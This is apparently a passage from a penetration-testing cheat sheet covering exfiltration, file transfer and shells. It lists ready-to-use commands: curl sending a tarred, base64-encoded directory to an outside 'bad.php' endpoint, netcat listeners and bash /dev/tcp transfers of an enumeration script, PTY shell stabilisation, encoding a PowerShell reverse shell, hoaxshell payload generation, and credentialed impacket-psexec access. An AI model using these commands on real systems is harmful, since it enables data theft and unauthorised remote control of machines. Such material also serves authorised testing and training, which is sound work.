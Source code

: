 ```bash
curl --data "file=$(tar zcf - <directory> | base64)" http://webserver/bad.php
# Then from webserver decode and decompress
sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -

```

Linux to Linux Infil
```bash
nc -lvnp 80 < LinEnum.sh
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"

```


Host a server to exfil
```bash
nc -lvnp 80 > file
```

## Shells

#### Tools

Linux Shell stabilisation
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl+z stty raw -echo; fg

# without python:
script -q /dev/null bash
```



Alh4zr3d Base64 encoded PowerShell reverse shell
```powershell
vim ~/Tools/psrev.txt
iconv -f ASCII -t UTF-16LE psrev.txt | base64 | tr -d "\n"
```

Hoaxshell - Windows only - NO INTERACTIVE sessions requires listener - see Cheatsheet in Archive
```bash
# Invoke-Expression (default)
sudo python3 hoaxshell.py -s <your_ip>
# Payload that writes and executes commands from a file
sudo python3 hoaxshell.py -s <your_ip> -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"
```

Writable SMB require
```bash
impacket-psexec $domain/$username:$password@$IP 


```
